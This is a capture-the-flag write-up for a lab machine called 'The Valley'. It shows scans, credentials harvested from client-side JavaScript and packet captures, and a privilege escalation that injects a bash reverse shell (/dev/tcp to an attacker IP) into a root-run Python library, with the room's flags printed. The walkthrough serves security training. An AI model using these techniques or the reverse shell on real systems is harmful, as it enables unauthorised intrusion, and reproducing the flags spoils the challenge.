

# TheValley

## Description

> Can you find your way into the Valley?

## Creds

> Ip Address : 10.10.111.218

## Write-Up


### Testing ports and subdomains on Machine

 - Scanning Ports :


```
└─$ nmap -v -A -T4 thevalley.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-12 21:24 CET
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Initiating Ping Scan at 21:24
Scanning thevalley.thm (10.10.111.218) [2 ports]
Completed Ping Scan at 21:24, 0.08s elapsed (1 total hosts)
Initiating Connect Scan at 21:24
Scanning thevalley.thm (10.10.111.218) [1000 ports]
Discovered open port 80/tcp on 10.10.111.218
Discovered open port 22/tcp on 10.10.111.218
Completed Connect Scan at 21:24, 3.81s elapsed (1000 total ports)
Initiating Service scan at 21:24
Scanning 2 services on thevalley.thm (10.10.111.218)
Completed Service scan at 21:24, 6.19s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.111.218.
Initiating NSE at 21:24
Completed NSE at 21:24, 2.92s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.34s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Nmap scan report for thevalley.thm (10.10.111.218)
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|   256 429e2ff63e5adb51996271c48c223ebb (ECDSA)
|_  256 2ea0a56cd983e0016cb98a609b638672 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Initiating NSE at 21:24
Completed NSE at 21:24, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

```

- Scanning Endpoints :

```
└─$ dirb http://thevalley.thm /usr/share/wordlists/dirb/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan 12 21:25:32 2024
URL_BASE: http://thevalley.thm/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://thevalley.thm/ ----
==> DIRECTORY: http://thevalley.thm/gallery/
+ http://thevalley.thm/index.html (CODE:200|SIZE:1163)
==> DIRECTORY: http://thevalley.thm/pricing/
+ http://thevalley.thm/server-status (CODE:403|SIZE:278)
==> DIRECTORY: http://thevalley.thm/static/

---- Entering directory: http://thevalley.thm/gallery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://thevalley.thm/pricing/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://thevalley.thm/static/ ----
+ http://thevalley.thm/static/00 (CODE:200|SIZE:127)
+ http://thevalley.thm/static/1 (CODE:200|SIZE:2473315)
+ http://thevalley.thm/static/10 (CODE:200|SIZE:2275927)
+ http://thevalley.thm/static/11 (CODE:200|SIZE:627909)
+ http://thevalley.thm/static/12 (CODE:200|SIZE:2203486)
+ http://thevalley.thm/static/13 (CODE:200|SIZE:3673497)
+ http://thevalley.thm/static/14 (CODE:200|SIZE:3838999)
+ http://thevalley.thm/static/15 (CODE:200|SIZE:3477315)
+ http://thevalley.thm/static/2 (CODE:200|SIZE:3627113)
+ http://thevalley.thm/static/3 (CODE:200|SIZE:421858)
+ http://thevalley.thm/static/4 (CODE:200|SIZE:7389635)
+ http://thevalley.thm/static/5 (CODE:200|SIZE:1426557)
+ http://thevalley.thm/static/6 (CODE:200|SIZE:2115495)
+ http://thevalley.thm/static/7 (CODE:200|SIZE:5217844)
+ http://thevalley.thm/static/8 (CODE:200|SIZE:7919631)
+ http://thevalley.thm/static/9 (CODE:200|SIZE:1190575)

-----------------
END_TIME: Fri Jan 12 21:41:11 2024
DOWNLOADED: 9224 - FOUND: 18

```

### Into the website

We see that we detected `http://thevalley.thm/static/00`, and here is its content:

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

After checking `/dev1243224123123`, it turns out to be a login page:


And as we enter some values, we discover that the form validation and creds checking is in the frontend. From there, we find the `dev.js` file containing credentials:

```js
...
    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
...
```

When accessing the notes file `/dev1243224123123/devNotes37370.txt`, we get:

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal ports
```

```
└─$ nmap -v -p37370 thevalley.thm               
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-12 21:43 CET
Initiating Ping Scan at 21:43
Scanning thevalley.thm (10.10.111.218) [2 ports]
Completed Ping Scan at 21:43, 0.08s elapsed (1 total hosts)
Initiating Connect Scan at 21:43
Scanning thevalley.thm (10.10.111.218) [1 port]
Discovered open port 37370/tcp on 10.10.111.218
Completed Connect Scan at 21:43, 0.08s elapsed (1 total ports)
Nmap scan report for thevalley.thm (10.10.111.218)
Host is up (0.081s latency).

PORT      STATE SERVICE
37370/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```


```
└─$ ftp 10.10.111.218 37370  
Connected to 10.10.111.218.
220 (vsFTPd 3.0.3)
Name (10.10.111.218:rivench): siemDev
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||64571|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> get siemFTP.pcapng
local: siemFTP.pcapng remote: siemFTP.pcapng
229 Entering Extended Passive Mode (|||46145|)
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |************************************************************************************************************************************************************************************************|  7272      939.60 KiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:00 (78.34 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||32168|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
ftp> get siemHTTP1.pcapng
local: siemHTTP1.pcapng remote: siemHTTP1.pcapng
229 Entering Extended Passive Mode (|||13631|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |************************************************************************************************************************************************************************************************|  1932 KiB    1.06 MiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:01 (1.00 MiB/s)
ftp> get siemHTTP2.pcapng
local: siemHTTP2.pcapng remote: siemHTTP2.pcapng
229 Entering Extended Passive Mode (|||11064|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |************************************************************************************************************************************************************************************************|  1926 KiB    1.11 MiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:01 (1.06 MiB/s)
```

From there, after analysing the `pcap` files using wireshark, and in the `siemHTTP2.pcapng` file, we found a form post request containing some credentials:

```
uname=valleyDev&psw=ph0t0s1234&remember=on
```

Trying to connect to it using ssh, we succeed:

```
└─$ ssh valleyDev@10.10.111.218                                                                                                                                                                                                        130 ⨯
valleyDev@10.10.111.218's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ ls
user.txt
valleyDev@valley:~$ cat user.txt
THM{k@l1_1n_th3_v@lley}
valleyDev@valley:~$ 
```

### Escalating to the Root

First let's check sudo previlidges, but it seems that we dont have access:

```
valleyDev@valley:~$ sudo -l
[sudo] password for valleyDev: 
Sorry, user valleyDev may not run sudo on valley.
```

From there, we check `PATH` variable, it seems to be editable:

```
valleyDev@valley:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
valleyDev@valley:~$ export PATH=/new/directory:$PATH
valleyDev@valley:~$ echo $PATH
/new/directory:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

#### Attempt with Suid

```
valleyDev@valley:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/authbind/helper
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chfn
/usr/sbin/pppd
/snap/snapd/18596/usr/lib/snapd/snap-confine
/snap/snapd/18357/usr/lib/snapd/snap-confine
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
```

Still nothing for suid files.

#### Attempt with `valleyAuthenticator`

But while exploring `/home` directory even more, we see that there is a executable file called `valleyAuthenticator`

```
valleyDev@valley:/home$ ls -alh /home
total 752K
drwxr-xr-x  5 root      root      4.0K Mar  6  2023 .
drwxr-xr-x 21 root      root      4.0K Mar  6  2023 ..
drwxr-x---  4 siemDev   siemDev   4.0K Mar 20  2023 siemDev
drwxr-x--- 16 valley    valley    4.0K Mar 20  2023 valley
-rwxrwxr-x  1 valley    valley    732K Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 valleyDev valleyDev 4.0K Mar 13  2023 valleyDev
valleyDev@valley:/home$ file valleyAuthenticator 
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

After downloading the file and extracting useful `strings`:

```
$ strings valleyAuthenticator > strings.txt
```

we find the following hashes:

```
...
e6722920bab2326f8217e4
bf6b1b58ac
ddJ1cc76ee3
beb60709056cfbOW
elcome to Valley Inc. Authentica
[k0rHh
 is your usernad
Ol: /passwXd.{
...
```

Matching them using crackstation gives us:

```
e6722920bab2326f8217e4bf6b1b58ac	md5	liberty123
dd2921cc76ee3abfd2beb60709056cfb	md5	valley
```

From there, we try the credentials:

```
valleyDev@valley:~$ /home/valleyAuthenticator
Welcome to Valley Inc. Authenticator
What is your username: valley
What is your password: liberty123
Authenticated
```

#### Attempt with crontabs

After checking the `/` directory, we found an intereting folder called `photos` containing a script and some photos:

```
```

It seems a to be a photo encoder, bu going further we found that the script is in the crontab :

```
valleyDev@valley:/home$ ls /photos
p1.jpg  p2.jpg  p3.jpg p4.jpg p5.jpg    p6.jpg  photoVault  script
valleyDev@valley:/home$ ls /photos/script/
photosEncrypt.py
valleyDev@valley:/home$ cat /photos/script/photosEncrypt.py 
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
   image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
   with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
   encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
   output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
   with open(output_path, "wb") as output_file:
        output_file.write(encoded_image_data)
```

```
valleyDev@valley:/home$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root      test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root      test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root      test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

Now, it's time to search write mode that we just add our **reverse shell**.

We find our writable file (base64.py) to add reverse shell by using 'find' command as below. 

```
valleyDev@valley:~$ find / -writable 2>/dev/null | grep "python"
valleyDev@valley:~$ ls -alh /usr/lib/python3.8
total 4.8M
drwxrwxr-x  30 root valleyAdmin  20K Mar 20  2023 .
drwxr-xr-x 112 root root        4.0K Mar 20  2023 ..
-rw-r--r--   1 root root        4.4K Mar 13  2023 abc.py
-rw-r--r--   1 root root         33K Mar 13  2023 aifc.py
-rw-r--r--   1 root root         477 Mar 13  2023 antigravity.py
-rw-r--r--   1 root root         95K Mar 13  2023 argparse.py
-rw-r--r--   1 root root         19K Mar 13  2023 ast.py
-rw-r--r--   1 root root         12K Mar 13  2023 asynchat.py
drwxr-xr-x   3 root root        4.0K Mar 20  2023 asyncio
-rw-r--r--   1 root root         20K Mar 13  2023 asyncore.py
-rwxrwxr-x   1 root valleyAdmin  20K Mar 13  2023 base64.py

```

Unfortunatly, the only writable file in python is `base64.py`, and we need to be in the `valleyAdmin` group, as valleyDev doesn't have any python wirtable destination.

Having credentials for `valley`, part of that group:

```
valleyDev@valley:~$ groups valley
valley : valley valleyAdmin
```

We connect using this user.

```
valley@valley:/home/valleyDev$ whoami
valley
valley@valley:/home/valleyDev$ cd /home/valley
valley@valley:~$ 
```

check for writable files:

```
valley@valley:~$ find / -writable 2>/dev/null | grep "python"
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

From there, let's edit the `base64.py` file to add the reverse shell code :

```py
...
import os

os.system('/bin/bash -c \'bash -i >& /dev/tcp/10.9.170.41/4242 0>&1\'')
...
```



We open our listner and we wait a little bit to get the access:

```
└─$ nc -nlvp 4242                                                                                                                                                                                                                      130 ⨯
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.111.218.
Ncat: Connection from 10.10.111.218:57814.
bash: cannot set terminal process group (2274): Inappropriate ioctl for device
bash: no job control in this shell
root@valley:~# ls
ls
root.txt
snap
root@valley:~# cat root.txt
cat root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
root@valley:~# 
```


## Flag

- User Flag: THM{k@l1_1n_th3_v@lley}
- Root Flag: THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
